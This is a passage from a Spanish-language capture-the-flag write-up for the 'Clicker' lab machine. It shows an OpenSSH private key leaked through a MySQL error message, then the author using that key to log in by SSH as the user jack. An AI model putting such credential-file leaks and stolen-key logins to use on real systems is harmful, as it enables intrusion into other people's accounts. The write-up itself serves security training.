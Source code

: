 ```shell
FUvKBcrtgBEGq44XkXlmeVhZVJbcc4IV9Dt8OLxQBWlxecnMPufMhld0Kvz2+XSjNTXo21
1LS8bFj1iGJ2WhbXBErQ0bdkvZE3+twsUyrSL/xIL2q1DxgX7sucfnNZLNze9M2akvRabq
DL53NSKxpvqS/v1AmaygePTmmrz/mQgGTayA5Uk5sl7Mo2CAn5Dw3PV2+KfAoa3uu7ufyC
kMJuNWT6uUKR2vxoLT5pEZKlg8Qmw2HHZxa6wUlpTSRMgO+R+xEQsemUFy0vCh4TyezD3i
SlyE8yMm8gdIgYJB+FP5m4eUyGTjTE4+lhXOKgEGPcw9+MK7Li05Kbgsv/ZwuLiI8UNAhc
9vgmEfs/hoiZPX6fpG+u4L82oKJuIbxF/I2Q2YBNIP9O9qVLdxUniEUCNl3BOAk/8H6usN
9pLG5kIalMYSl6lMnfethUiUrTZzATPYT1xZzQCdJ+qagLrl7O33aez3B/OAUrYmsBAAAA
wQDB7xyKB85+On0U9Qk1jS85dNaEeSBGb7Yp4e/oQGiHquN/xBgaZzYTEO7WQtrfmZMM4s
SXT5qO0J8TBwjmkuzit3/BjrdOAs8n2Lq8J0sPcltsMnoJuZ3Svqclqi8WuttSgKPyhC4s
FQsp6ggRGCP64C8N854//KuxhTh5UXHmD7+teKGdbi9MjfDygwk+gQ33YIr2KczVgdltwW
EhA8zfl5uimjsT31lks3jwk/I8CupZGrVvXmyEzBYZBegl3W4AAADBAO19sPL8ZYYo1n2j
rghoSkgwA8kZJRy6BIyRFRUODsYBlK0ItFnriPgWSE2b3iHo7cuujCDju0yIIfF2QG87Hh
zXj1wghocEMzZ3ELIlkIDY8BtrewjC3CFyeIY3XKCY5AgzE2ygRGvEL+YFLezLqhJseV8j
3kOhQ3D6boridyK3T66YGzJsdpEvWTpbvve3FM5pIWmA5LUXyihP2F7fs2E5aDBUuLJeyi
F0YCoftLetCA/kiVtqlT0trgO8Yh+78QAAAMEAwYV0GjQs3AYNLMGccWlVFoLLPKGItynr
Xxa/j3qOBZ+HiMsXtZdpdrV26N43CmiHRue4SWG1m/Vh3zezxNymsQrp6sv96vsFjM7gAI
JJK+Ds3zu2NNNmQ82gPwc/wNM3TatS/Oe4loqHg3nDn5CEbPtgc8wkxheKARAz0SbztcJC
LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
```

Ahora que tenemos la clave privada de `jack` podemos iniciar sesión por SSH como este usuario

```shell
$ chmod 600 id_rsa 
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/clicker/content]
└──╼ [★]$ ssh -i id_rsa jack@clicker.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Aug 13 04:52:32 PM UTC 2024

  System load:           0.00439453125
  Usage of /:            53.3% of 5.77GB
  Memory usage:          19%
  Swap usage:            0%
  Processes:             247
  Users logged in:       0
  IPv4 address for eth0: 10.129.244.53
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b37a


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Aug 13 16:52:33 2024 from 10.10.14.85
To run a command as administrator (user "root"), use "sudo <command>".
```